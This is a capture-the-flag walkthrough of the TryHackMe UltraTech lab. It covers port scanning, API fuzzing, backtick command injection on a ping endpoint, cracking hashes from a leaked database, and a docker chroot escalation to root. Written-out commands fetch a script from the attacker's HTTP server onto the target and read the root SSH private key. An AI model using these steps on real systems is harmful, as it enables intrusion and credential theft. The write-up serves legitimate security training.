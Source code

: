 # TryHackMe - UltraTech - Linux

- [Room](https://tryhackme.com/room/ultratech1)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.12.178 
Nmap scan report for 10.10.12.178
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=5/26%OT=21%CT=1%CU=38541%PV=Y%DS=4%DC=I%G=Y%TM=628F871
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 817.68 seconds

```

## WFuzz on port 8081

```
┌──(root💀kali)-[~]
└─# wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.12.178:8081/FUZZ --hc 404 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.12.178:8081/FUZZ
Total requests: 87664

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
[STRIPPED]                                                                                                                                                                      
000002579:   200        0 L      8 W        39 Ch       "auth"                                                                                                                                                                      
000003709:   500        10 L     61 W       1094 Ch     "ping"                                                                                                                                                                      
000033607:   500        10 L     61 W       1094 Ch     "Ping"                                                                                                                                                                                                                                                                                                                     
000076294:   200        0 L      8 W        39 Ch       "Auth"                                                                                                                                                                      

Total time: 2554.824
Processed Requests: 87664
Filtered Requests: 87645
Requests/sec.: 34.31311

```

## Task 2

- Which software is using the port 8081? `Node.js`
- Which other non-standard port is used? `31331`
- Which software using this port? `Apache`
- Which GNU/Linux distribution seems to be used? `Ubuntu`
- The software using the port 8081 is a REST api, how many of its routes are used by the web application? (response is found using wfuzz) `2`

## Task 3

- We have an auth endpoint that requires user and password  
![image](https://user-images.githubusercontent.com/96747355/170530482-ec0d415b-ec21-433e-9a2e-24d89037cd1c.png)  
- We also have a ping endpoint but it seems to need a parameter as well  
![image](https://user-images.githubusercontent.com/96747355/170532602-fd12e73d-f7cb-4898-90cf-b1a84cbcb2b6.png)  
- We could try to pass it an ip  
![image](https://user-images.githubusercontent.com/96747355/170533575-1c1167f7-06f0-4515-b75a-ca830a263a78.png)  
- In ctf this kind of features often leads to cmd injection so we could try a command using backticks because it takes precedence over other commands (I tried with pipes and other ways but it did not work) , and it works  
![image](https://user-images.githubusercontent.com/96747355/170534114-51771436-3caa-4c4c-a57b-d15a27060c29.png)  
- Let's try an ls  
![image](https://user-images.githubusercontent.com/96747355/170534235-08511f14-8d51-4b2c-91dd-8a7f22e6b144.png)
- We get the name of the db file!  
![image](https://user-images.githubusercontent.com/96747355/170537550-d8bc90c3-2550-4569-8f64-c39e9a14d12c.png)  
- If we cat the fil we get password hashes for an admin and a user called r00t  
![image](https://user-images.githubusercontent.com/96747355/170538856-4c51f809-8a3e-4f65-b501-9e7456e5e5d6.png)  
- If crack the hash with [crackstation](https://crackstation.net/) we get the password  
![image](https://user-images.githubusercontent.com/96747355/170539323-edab2aff-07e9-4ef3-acbf-3ef11b282664.png)  
- We can do the same for the admin password

### Questions

- There is a database lying around, what is its filename? `utech.db.sqlite`
- What is the first user's password hash? I will let you find it on your own

## About port 31331 - alternative way to foothold

- We could also find things by checking the robots.txt file  
![image](https://user-images.githubusercontent.com/96747355/170544638-7b09c227-c835-4a84-9d0b-8b5d12208697.png)  
- We discover a sitemap  
![image](https://user-images.githubusercontent.com/96747355/170544754-24b4e4a7-281d-4f8f-a572-df8d5d7d058c.png)  
- There is a partner page that we can not find when looking at the website. It is a login page  
![image](https://user-images.githubusercontent.com/96747355/170546439-28e5751c-9f3c-4e0f-97da-61a43d80440c.png)  
- We can check the source code and this way we discover the auth endpoint of the api  
![image](https://user-images.githubusercontent.com/96747355/170548050-bcdae23c-096e-4469-9104-8aed5207e74c.png)
- We can then analyze the code of the api.js file http://10.10.12.178:31331/js/api.js  
![image](https://user-images.githubusercontent.com/96747355/170549692-c0e39354-335a-4d1d-b600-e4965a7f3ea6.png)  
- This way we discover the ping endpoint `http://${getAPIURL()}/ping?ip=${window.location.hostname}`

## Task 4 - Privesc

- Let's try to ssh with the found passwords. It works!  
![image](https://user-images.githubusercontent.com/96747355/170542892-4c9eb306-60a4-4a4a-83d5-840932013862.png)
- Let's enumerate our ways to privesc with [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
- We take it in our attacking machine `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh/`
- We serve it to our target with python server `python3 -m http.server 80`
- We get it to our target `wget http://10.13.22.56/LinEnum.sh`
- We make it executable `chmod +x LinEnum.sh` we have an interesting output here  
![image](https://user-images.githubusercontent.com/96747355/170555950-42058a3c-ce10-4bd5-9f24-05df01739c27.png)  
- Let's have a look at gtfobins and search for docker, we find this(https://gtfobins.github.io/gtfobins/docker/) and we have an interesting command `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` except instead of alpine we want to use bash
- `docker run -v /:/mnt --rm -it bash chroot /mnt sh` and we get root!  
![image](https://user-images.githubusercontent.com/96747355/170556766-6e029343-6c38-455a-942f-c340f3748618.png)
- Let's take the chars of the root ssh key as requested in the question `cat /root/.ssh/id_rsa`

